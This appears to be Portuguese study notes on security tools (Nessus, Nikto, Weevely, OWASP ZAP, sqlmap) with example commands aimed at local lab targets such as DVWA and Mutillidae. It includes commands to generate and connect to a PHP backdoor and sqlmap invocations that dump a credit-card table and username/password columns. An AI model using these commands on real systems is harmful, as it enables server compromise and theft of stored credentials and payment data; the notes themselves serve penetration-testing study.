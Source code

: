 #Nessus:
	Nessus Cloud é um programa de verificação de falhas/vulnerabilidades de segurança. Ele é composto por um cliente e servidor, sendo que o scan propriamente dito é feito pelo servidor.

#Nikto:
	Nikto é um scanner de vulnerabilidades de software livre acessado por CLI, usado para escanear servidores web em busca de arquivos perigosos, programas desatualizados e outros problemas. É capaz de fazer tanto análises genéricas como análises específicas de servidor. Também faz a captura e exibição de cookies HTTP. 
	! Existem ferramentas como o Nikto que são capazes de “scanear” um servidor web, listando informações de servidor, como qual tecnologia utilizada, versão, etc e os links referentes a um domínio. Com isso, podemos descobrir páginas que teoricamente não eram para ser indexadas, e se tiver alguma página com conteúdo privado que não esteja com nenhum processo de autenticação, qualquer usuário poderá acessar.
```bash
$ nikto -h "http://192.168.1.37/multillidae/" # exemplo
```

#Software_Weevely:
	O WEEVELY é uma ferramenta desenvolvida em Python que permite que um Backdoor seja gerado no formato .php e se executado em um host remoto pode obter o console do sistema.
```bash
$ weevely generate 1234 aplicacao.php # Generated backdoor with password '1234' in 'aplicacao.php' of 1429 byte size
$ weevely "http://192.168.1.42/dvwa/hackable/uploads/aplicacao.php" 1234 # Caso aja conexeção significa que o backdor conseguiu acesso ao servidor
```

#Owasp-zap:        ****warning*** -> não pode ser usado em sites da internet
	Traduzido do inglês-OWASP ZAP é um scanner de segurança de aplicativos da web de código aberto. Ele deve ser usado tanto por aqueles que são novos em segurança de aplicativos quanto por testadores de penetração profissionais. É um dos projetos mais ativos do Open Web Application Security Project e recebeu o status de carro-chefe.

#Sqlmap: 
	Sqlmap é uma ferramenta open source para teste de penetração que automatiza o processo de detecção e exploração de vulnerabilidades de Injeção de SQL, permitindo a invasão de banco de dados de sites. 
	!Threads no sqlmap se refere a quantidade de requisições que ele faz em um instante de tempo, quanto maior o número passado mais poder computacional será exigido, pode ser definido por --threads \[1-10\]
	! --crawl=2 caso você informe alguma url sem nenhum parametros - ao invés de "\<url\>/category=", você informa "\<url\>" - o método crawl irá fazer a busca pelos parâmetros ele encontrar na página  
	! Para melhorar a performance informe a base de dados usada (se a caso já souber) com --dbms PostgreSQL, o sistema operacional usado com --os, --batch para o sqlmap não ficar fazendo perguntas na tela.

```bash
$ sqlmap -u "URL_DO_FORMS"   # Testa várias injeções e retorna se encontrou alguma vunerabilidade
   $ sqlmap -u "URL_DO_FORMS" --dbs  # Lista os banco de dados do site.
   $ sqlmap -u "URL_DO_FORMS" --current-db  # retorna o banco de dados usado
   $ sqlmap -u "URL_DO_FORMS" --tables -D nowasp  # Uma vez que descobrimos qual o banco, podemos obter o número de tabelas que ele possui e o nome delas
   $ sqlmap -u "URL_DO_FORMS" --dump -T credit_cards -D nowasp # Vai tentar retornar o conteúdo da tabela informada
   $ sqlmap -u <url> –D <db_name> –tables <table> –columns “password,username” –dump  # mostra as informações das colunas que eu informar 
   $ sqlmap -u "URL" --data="email=alex@gmail.com&senha=123" # A opção --data é utilizada para passar os parâmetros enviados pela requisição POST, através desses parâmetros o sqlmap irá tentar fazer a injeção de código SQL
   $ sqlmap -u "URL_DO_FORMS" --batch # Executa o sqlmap sem que ele faça perguntas no terminal, irá retornar apenas algumas respostas padrão
   $ sqlmap -u <url> --technique TU  # Caso eu queria explorar Sql Injection baseado em tempo e no comando UNION
```